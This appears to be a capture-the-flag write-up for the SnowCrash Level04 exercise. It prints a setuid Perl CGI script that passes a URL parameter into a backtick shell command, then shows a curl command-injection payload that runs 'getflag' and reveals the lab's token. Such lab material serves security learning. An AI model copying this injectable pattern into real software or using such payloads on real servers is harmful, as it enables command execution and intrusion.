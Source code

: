 # Level04

## Hint

There appears to be a server running on `localhost:4747`, perhaps you can use it to get the flag.

## Answer

Let's check our current directory:
```
level04@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout*
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
-r-x------  1 level04 level04  675 Apr  3  2012 .profile*
```

Great ! We found an executable file, let's run it first !
```
level04@SnowCrash:~$ ./level04.pl
Content-type: text/html


```

Hmm, so nothing happened. Since this is a perl script, we can actually just read it:
```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Alright, from this code we can see that the server is running on `localhost:4747`, futhermore it takes the value of the `x` parameter and prints that value such as:
```
level04@SnowCrash:~$ curl localhost:4747/?x=hello
hello
```

As expected. We can now get the flag by running the following command:
```
level04@SnowCrash:~$ curl localhost:4747/?x='`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

The reason why this works is because we added [backticks](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands) so that the command will be evaluated before the `echo` command is executed, moreover we add single quotes so that it evualuates the command on the server and now in our current shell.